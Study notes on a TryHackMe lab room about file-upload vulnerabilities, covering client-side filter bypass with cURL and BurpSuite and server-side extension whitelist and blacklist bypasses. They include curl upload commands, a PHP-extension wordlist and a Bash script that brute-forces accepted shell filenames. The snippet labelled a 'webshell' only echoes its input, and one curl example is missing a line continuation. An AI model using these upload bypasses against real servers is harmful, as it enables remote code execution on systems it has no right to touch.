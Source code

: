 # Upload vulnerabilities

{% embed url="https://tryhackme.com/room/uploadvulns" %}
TryHackMe upload vulnerabilities practice room
{% endembed %}

### Bypassing client-side filtering

1. Direct server requests with _cURL_

_Eg._

> Task 7 of the _tryhackme.com_ practice room (link provided at the top)

The following Javascript file defines the client-side filtering logic, which only allows file uploads of the type `image/png`:

```javascript
...
...
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}

...
...
```

Given the following form field in the HTML source code:

```html
<form method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileSelect" style="display:none">
    <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
</form>
```

A cURL request can be sent directly to the server — completely bypassing the client-side filter.

The `-F` or `--form` flag in the _cURL_ command can be used to send form-data (given that the file `shell.php` is found in the same directory):

```bash
curl 'http://java.uploadvulns.thm/' \
  -H 'Host: java.uploadvulns.thm' \
  -F 'fileToUpload=@shell.php;type=text/x-php'
  -F 'submit=Upload'
```

The Content-Type header will be automatically added to the final  HTTP _POST_ request, and will look like the following:

```http
Content-Type: multipart/form-data; boundary=------------------------xxxx
```



2. Interceping and modifying requests with _BurpSuite_

_BurpSuite_ can be used to modify:

a) The GET response from the server to the client, allowing the removal of JavaScript filter logic loaded on the client side&#x20;

b) The POST request sent to the server, enabling the removal of client-side filtering before the data is uploaded



### Bypassing server-side filtering

1. Presence of valid file extension anywhere within the filename (_whitelist bypass_)

Some server-side filtering mechanism check if the filename contains a valid file extension without enforcing strict validation at the end of the filenam. This logic can be exploited by including the allowed extension within the filename while using a malicious extension.

A possible server-side logic:

```php
IF STRING ".[file-ext]" IS IN VARIABLE <user_input>:
    PROCEED
ELSE:
    RETURN ERROR MESSAGE
```

Eg. Given that the valid file extension is `.jpg`. A possible valid filename can be: `shell.jpg.php`. This allows us to bypass the filter and upload a PHP file — providing us a platform for code execution..



2. Using uncommon file extension for the same file-type (_blacklist bypass_)

Some server-side filtering logic may check the file extension, and reject the file based on a blacklist. However, blacklist implementations are often incomplete, and fail to cover all possible extensions for the same file-type. This allows us to sneak a filename through the filters, which may be recognized and executed by the server.

Refer to the sub-page named: _**File extension cheat-sheet**_.

Eg. Given that `.php` is blacklisted, `.php5` may still be allowed. Thus, the filename `shell.php5` will be accepted by the server, and may execute if configured to handle `.php5` files as PHP scripts — providing us a platform for code execution.



### Examples

Eg.

> Task 8 of the _tryhackme.com_ practice room (link provided at the top)

This challenge requires the combination of method 1 and 2 discussed above (\*\*TO CONFIRM).

I decided to create a simple Bash shell script to automate the process of finding the valid filename.

_**php-ext.txt**_ (wordlist of PHP file extensions)

```
.phtml
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
```

_**Bash shell script**_

```sh
#!/bin/bash

file="php-ext.txt"
while IFS="" read -r cur;
do
	if [[ -z "$cur" ]]; then
		continue
	fi

	res=$(curl http://annex.uploadvulns.thm -H "Host: annex.uploadvulns.thm" -F "fileToUpload=@shell.jpg$cur;type=application/octet-stream" -F "submit=Upload" -s -o /dev/null -D - | grep 'location')

	# alternatively,
	# if [[ "$res" == *"/?submit=success"* ]]; then
	if echo "$res" | grep -q "/?submit=success"; then
		printf "FOUND: $cur"
		exit 0
	fi

done < "$file"
```

Output: `FOUND: .php5`

The accepted PHP shell script filename is `shell.jpg.php5`.



Simple webshell (to transfer to a dedicated _**WEBSHELL**_ section?)

```php
<?php
// Check if 'cmd' parameter is set in the URL
if (isset($_GET['cmd'])) {
    // Get the value of 'cmd' parameter
    $cmd = $_GET['cmd'];

    // Display the value
    echo "Command: " . htmlspecialchars($cmd);
} else {
    echo "No command provided.";
}
?>
```
